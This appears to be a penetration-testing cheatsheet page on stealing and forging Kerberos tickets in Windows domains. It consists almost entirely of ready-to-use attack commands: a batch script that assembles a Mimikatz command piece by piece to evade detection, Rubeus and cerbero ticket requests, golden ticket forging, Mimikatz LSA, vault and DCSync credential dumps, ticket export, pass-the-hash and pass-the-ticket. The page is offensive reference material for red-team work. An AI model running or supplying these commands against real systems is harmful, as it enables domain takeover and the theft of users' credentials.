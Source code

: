 ```yaml
---
layout: post
title: credentials / krb
category: 04-credentials
parent: cheatsheets
modified_date: 2023-06-09
permalink: /creds/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
* 1. [command-obfuscation](#command-obfuscation)
* 2. [cleartext-2-nthash](#cleartext-2-nthash)
* 3. [get-tgt](#get-tgt)
* 4. [golden](#golden)
* 5. [vault](#vault)
* 6. [lsadump-lsa](#lsadump-lsa)
* 7. [lsadump-dcsync](#lsadump-dcsync)
* 8. [ccache-convert](#ccache-convert)
* 9. [krb-export](#krb-export)
* 10. [krb-pth](#krb-pth)
* 11. [krb-ptt](#krb-ptt)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Which OS? What Creds?**
![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var mm = ["https://api.github.com/repos/GhostPack/Rubeus","https://api.github.com/repos/Flangvik/BetterSafetyKatz","https://api.github.com/repos/gentilkiwi/mimikatz","https://github.com/zer1t0/cerbero",]; for (rep in mm) {$.ajax({type: "GET", url: mm[rep], dataType: "json", success: function(result) {$("#mm_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="mm">
    <table id="mm_list" class="sortable">
      <tr><th>_repo</th><th>_last_pushed</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

##  1. <a name='command-obfuscation'></a>command-obfuscation
```bat
REM script file to obfuscate the token manipulation commands 
 @echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\SafetyKatz.exe %Pwn% exit
```

##  2. <a name='cleartext-2-nthash'></a>cleartext-2-nthash
```powershell
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

##  3. <a name='get-tgt'></a>get-tgt
```powershell
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
Invoke-Mimi -Command '"sekurlsa::ekeys"'
```

##  4. <a name='golden'></a>golden
```powershell
# contains secrets for the: scheduled tasks, ...
Rubeus.exe -args golden /aes256:$ztarg_user_hash /sid:$ztarg_user_sid /ldap /user:$ztarg_user_name /printcmd
```

##  5. <a name='vault'></a>vault
```powershell
# contains secrets for the: scheduled tasks, ...
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

##  6. <a name='lsadump-lsa'></a>lsadump-lsa
```powershell
# dump lsa process
Invoke-Mimi -Command '"token::elevate" "lsadump::lsa /patch"'
```
##  7. <a name='lsadump-dcsync'></a>lsadump-dcsync
```powershell
# dcsync
Invoke-Mimi -Command '"token::elevate" "lsadump::dcsync"'
```

##  8. <a name='ccache-convert'></a>ccache-convert

```python
# Convert linux to windows krb ticket :
ticketConverter.py $ztarg_user_name".ccache" $ztarg_user_name".krb"
cerbero convert -i $ztarg_user_name".ccache" -o $ztarg_user_name".krb"
```

##  9. <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

##  10. <a name='krb-pth'></a>krb-pth
```powershell
# run powershell with pass-the-hash
mimikatz.exe
privilege::debug
sekurlsa::pth /user:$zlat_user /rc4:xxx  /domain:$zdom /dc:$zdom_dc_fqdn /run:"powershell -ep bypass"

# opth
Rubeus.exe -args %Pwn% /user:$ztarg_user_name /aes256:$ztarg_user_hash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```

##  11. <a name='krb-ptt'></a>krb-ptt
```bash
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_hash /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_hash /createnetonly:C:\Windows\System32\cmd.exe
```



